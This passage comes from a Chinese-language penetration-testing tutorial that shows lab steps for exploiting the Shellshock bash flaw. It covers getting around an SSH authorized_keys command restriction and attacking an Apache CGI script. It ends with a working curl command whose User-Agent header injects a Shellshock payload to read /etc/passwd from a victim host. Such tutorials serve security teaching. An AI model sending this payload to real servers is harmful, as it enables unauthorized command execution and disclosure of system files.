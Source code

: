9.  创建脚本后，我们可以运行给定的命令来授予它可执行的权限:

```sh
    chmod +x sample.sh
```

10.  之后，我们使用`authorized_keys`文件中的`command`选项，通过添加脚本的路径来运行我们的`sample.sh`脚本:

![](assets/621a0c58-a97f-4413-880c-d1a20bf7c0e9.png)

在`authorized_keys`文件中标记先前的更改，以限制用户执行一组预定义的命令，这将使公钥认证易受攻击。

11.  现在，从攻击者的系统，尝试通过 SSH 连接到受害者的系统，同时传递`date`作为参数:

![](assets/7b14e2ee-368a-4759-bd06-20ecf821ad39.png)

我们可以看到由于我们添加到`authorized_keys`文件的脚本而显示的消息`restricted`。

11.  接下来，我们尝试将 Shellshock 漏洞作为一个参数传递，如下所示:

![](assets/2842e182-0fc1-41e5-a34a-61661b83e3d2.png)

我们可以看到，即使我们在这个脚本中限制了`date`命令，但这次它被执行了，我们得到了`date`命令的输出。

12.  现在，让我们看看如何使用 Shellshock 漏洞来危害正在运行任何脚本的 Apache 服务器，这些脚本可以用环境变量触发 bash shell。

13.  如果受害者的系统上尚未安装 Apache，我们必须通过运行以下命令来安装它:

```sh
       apt-get install apache2
```

安装后，我们使用以下命令启动 Apache 服务器:

```sh
        service apache2 start
```

14.  接下来，我们移动到`/usr/lib/cgi-bin/`路径，创建一个名为`example.sh`的脚本，其中包含以下代码，以显示一些 HTML 输出:

![](assets/bbf585ee-625e-4651-b3c8-4b95bb34ffbc.png)

然后，我们通过运行以下命令使其可执行:

```sh
          chmod +x example.sh
```

现在从攻击者的系统中，我们尝试使用名为`curl -`的命令行工具远程访问`example.sh`文件。

我们得到了预期的脚本输出:`Example Page`。

![](assets/8d58573d-be6f-4aa7-87f2-7295c2d34e32.png)

15.  现在，让我们向服务器发送一个恶意请求，使用 curl 打印受害者系统的`/etc/passwd`文件的内容:

```sh
    curl -A '() { :;}; echo "Content-type: text/plain"; echo; /bin/cat /etc/passwd' http://192.168.1.104/cgi-bin/example.sh
```
